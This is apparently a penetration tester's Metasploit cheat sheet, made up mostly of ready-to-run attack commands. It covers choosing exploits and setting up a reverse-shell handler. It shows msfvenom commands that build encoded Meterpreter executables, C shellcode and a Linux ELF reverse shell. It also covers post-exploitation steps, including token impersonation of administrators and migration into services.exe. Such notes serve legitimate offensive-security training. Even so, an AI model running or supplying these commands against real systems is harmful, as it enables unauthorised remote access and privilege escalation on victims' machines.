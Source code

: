 metasploit

~~~
msfconsole
msfvenom
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb
~~~

Launch MSFConsole

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msfconsole
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Pick an Exploit (Way into the system)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
use exploit/.../.../.../explot_to_use
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Set a Payload (Way back to you)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
set PAYLOAD .../.../.../reverse_shell
set PAYLOAD .../.../.../bind_shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Show Options to Set

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
show options
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Set Options within the Exploit and Payload

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
set LHOST 10.10.10.100
set LPORT 4444
set RHOSTS 10.10.10.10
set RPORT 8080
etc...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Spool output to file

~~~
spool /home/kali/spool_file.txt
~~~

Stopping Spooling

~~~
spool off
~~~

Run Exploit

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
run
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Accepting Connections Within Metasploit

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Breakdown of the above:

use exploit/multi/handler                                        -- Sets up the handler to accept the incoming connection
set PAYLOAD windows/meterpreter/reverse_tcp           -- Sets the payload for the handler to accept and interpret properly (THIS MUST MATCH THE MSFVENOM GENERATED PAYLOAD)
set LHOST your-ip                                                  -- Sets the Local Host IP/Listening Host IP for accepting the incoming connection
set LPORT listening-port                                          -- Sets the Local Port on the Local/Listening Host to Listen on for the incoming connection
run                                                                      -- Runs the Handler that we have set up

Example of the MSFVenom command used to set this attack up:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Once you have a meterpreter shell, you can type “help” for a list of commands available to you in the Meterpreter session. If you do not have needed commands, you may be running mismatched meterpreter payloads and meterpreter can't get a proper session set up.

Once you have a Meterpreter session active, you can load and use modules on the Victim PC.

To load a module, issue the command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
load <module name>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

ex. load incognito

Incognito is used for Token Impersonation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Meterpreter>load incognito
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

List Available Tokens for Impersonation

List groups

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
list_tokens -g
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

list users

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
list_tokens -u
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Impersonate a Specific Available Token

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
impersonate_token "BUILTIN\Administrators"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Verify that you have Successfully Impersonated the Token

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
getuid
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Find a safe Process to Migrate to for Primary Token (Impersonation is a stepping stone for Primary Token Impersonation)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ps
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Locate the PID for “services.exe” as this is generally a safe process to migrate to for escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
migrate <PID Number>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

After Successfully Migrating to another process with Higher Privs, you can now execute an interactive shell on the system

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Allows you to generate shellcode or executables for access on a victim machine

Shellcode Generation 

***(This will work without Metasploit as this is a non-meterpreter payload)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=LISTENER_PORT EXITFUNC=thread -f c -a x86 -b "\x00\OTHERBADCHARS"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Breakdown of the above command:
-p == Payload Specification
windows/shell_reverse_tcp == Payload To Use
LHOST == Local Host IP (Attacker PC)
LPORT == Listener Port (Attacker PC)
EXITFUNC == Function To Exit Payload Gracefully
-f == Format/File Type
c == C Code (exe would indicate windows binary, py would indicate python script, etc.)
-a == Architecture Specification
x86 == 32Bit Architecture
-b == Bad Character Specification (used for Buffer Overflow Shellcode)
“\x00\OTHERBADCHARS” == Bad Character Definitions

Executable Generation 

***(This will not work outside of Metasploit as this is a meterpreter payload)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=4444 -f exe -o badexecutable.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Breakdown of the above command:
-p == Payload Specification
windows/shell_reverse_tcp == Payload To Use
-a == Architecture Specification
x86 == 32Bit Architecture
--encoder == Encoder Specification flag
x86/sikata_ga_nai == Encoder Definition
LHOST == Local Host IP (Attacker PC)
LPORT == Listener Port (Attacker PC)
-f == Format/File Type
exe == exe binary (exe would indicate windows binary, py would indicate python script, etc.)
-o == Output File Specification Flag
badexecutable.exe == Output File Definition (Path can be included i.e. /home/user/badexecutable.exe)

!IMPORTANT NOTES!

Meterpreter Payloads will only be accepted in Metasploit
Other Payloads should be able to be accepted using NetCat

msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.152 LPORT=4444 -f elf -o shell
